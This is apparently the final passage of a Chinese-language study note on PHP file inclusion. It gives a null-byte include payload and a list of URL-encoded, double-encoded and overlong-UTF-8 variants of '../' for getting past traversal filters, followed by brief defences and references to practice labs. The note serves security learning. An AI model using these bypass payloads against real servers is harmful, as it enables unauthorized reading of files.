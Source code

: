 ```
?file=../phpinfo.php%00
```
## ../绕过
一般情况下，如果../被过滤，可以尝试利用编码绕过。引用`chybeta大神的总结`
 - 利用url编码
   - ../
     - %2e%2e%2f
     - ..%2f
     - %2e%2e/
   - ..\
     - %2e%2e%5c
     - ..%5c
     - %2e%2e\
 - 二次编码
   - ../
%252e%252e%252f
   - ..\
     - %252e%252e%255c
 - 容器/服务器的编码方式
   - ../
     - ..%c0%af
       - 注：[Why does Directory traversal attack %C0%AF work?](https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work)
     - %c0%ae%c0%ae/
       - 注：java中会把”%c0%ae”解析为”\uC0AE”，最后转义为ASCCII字符的”.”（点）
       - Apache Tomcat Directory Traversal
   - ..\
     - ..%c1%9c

<br><br>

# 防御
 - allow_url_include和allow_url_fopen最小权限化
 - 设置`open_basedir`（open_basedir 将php所能打开的文件限制在指定的目录树中）
 - 白名单限制包含文件，或者严格过滤`./\`

<br>

# 总结
以上记录了自己在学习PHP文件包含的实验过程和自己的理解，里面也摘录了一些大牛漂亮的总结。真心感谢师傅们的经验和总结。
以及自己给自己出了一些练习题目，方便自己以后回忆。
[php-file-include](https://github.com/byxs0x0/php-file-include)（待完成）

# 参照
[chybeta-php文件包含漏洞](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)
[php文件包含漏洞利用总结](http://vinc.top/2016/08/25/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/)
[常见文件包含发生场景与防御](https://www.anquanke.com/post/id/86123)
[本地文件包含漏洞&&PHP利用协议&&实践源码](https://github.com/Go0s/LFIboomCTF) 推荐去练习一下
[php伪协议实现命令执行的七种姿势](http://www.freebuf.com/column/148886.html)
[PHP伪协议分析与应用](http://www.4o4notfound.org/index.php/archives/31/)
